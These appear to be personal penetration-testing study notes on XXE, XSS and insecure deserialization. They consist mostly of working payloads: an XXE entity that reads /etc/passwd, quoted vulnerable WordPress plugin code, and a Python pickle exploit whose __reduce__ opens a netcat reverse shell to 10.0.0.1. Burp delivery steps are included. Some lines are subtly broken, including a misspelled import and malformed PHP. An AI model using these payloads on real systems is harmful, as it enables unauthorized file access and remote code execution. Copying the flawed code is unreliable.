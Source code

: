 ## XXE & XSS & Insecure Deserialization
### Links

- [PayLoad All The Things XXE](https://swisskyrepo.github.io/PayloadsAllTheThings/XXE%20Injection/)
- [PayLoad All The Things XSS](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/)

### XXE Injection
```
//Ability to read files on system
//XML elements, what are they?

touch test.xml
	test data

Upload the test file to the XML site

On Burp get request log
Send to repeater

change body of file to what it wants to see the 200
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<Wrapper>
	<Author>author</Author>
	<Subject>&xxe</Subject>
	<Content>content</Content>
</Wrapper>




```

### XXS Injection
```
This PHP function is responsible for parsing various HTTP request headers, including the UserAgent, which is saved in the useragent record value. Next, each time a WordPress administrator loads the Visitor plugin, the function will execute the following portion of code from start.php:

$i=count(VST_get_records($date_start, $date_finish)); foreach(VST_get_records($date_start, $date_finish) as $record) { echo ' <tr class="active" > <td scope="row" >'.$i.'</td> <td scope="row" >'.date_format(date_create($record->datetime), get_option("links_updated_date_format")).'</td> <td scope="row" >'.$record->patch.'</td> <td scope="row" ><a href="https://www.geolocation.com/es?ip='.$record>ip.'#ipresult">'.$record->ip.'</a></td> <td>'.$record->useragent.'</td> </tr>'; $i--; }

```

![XSS Example](XSSExample.png)

![XSS Flow Chart](XSSFlowChart.png)


### Insecure Deserialization

```

import pickle
from base64 import urlsafe_b54encode as b64encode

RUNME = """rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f"""


class ElevateSecurity(object):
	def __reduce__(self):
		import os
		return (os.system,(RUNME,))
print b64encode(pickle.dumps(ElevateSecurity()))


Take the output of this and put in the burp repeater for the xml upload site

Go to IP/newpost
Change from GET to POST
Just change content-type to text
